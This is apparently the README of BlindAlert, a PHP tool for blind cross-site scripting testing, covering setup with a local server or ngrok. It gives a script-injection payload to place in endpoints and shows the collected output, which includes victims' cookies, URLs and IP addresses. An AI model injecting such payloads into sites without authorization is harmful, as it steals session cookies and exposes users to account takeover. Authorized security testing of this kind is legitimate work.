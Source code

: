 # BlindAlert

![BlindAlert](https://preview.ibb.co/jSdgDx/blind_Alert.png)

Easy Blind Cross-site Scripting testing tool.

## Requirements

* PHP >= 5.7
* Running server or [ngrok](https://ngrok.com/) (access localhost over the internet)

## Installation

Either you can install in your local system and access through the ngrok or install into a live server.

To install BlindAlert, simply clone the repo
```
git clone https://github.com/mdhama/blindAlert.git
```

To Run on local server
```
cd blindAlert
php -S localhost:80
```
Now open http://localhost in your browser.

Over the internet using ngrok
```
./ngrok http 80
```


## Uses

- Create a JS payload and start blindly putting into endpoints :-) 
`e.g. "><script src="http://localhost"></script>`
- When it executes sucessfully, it creates an output file within the same project directory. 

Example output file.txt: 

```
origin: http://example
host: example
url: http://example/user/posts
referrer: http://example/user
user-agent: <user-agent>
cookies: <document.cookie>
ip: <ip_addess>
```

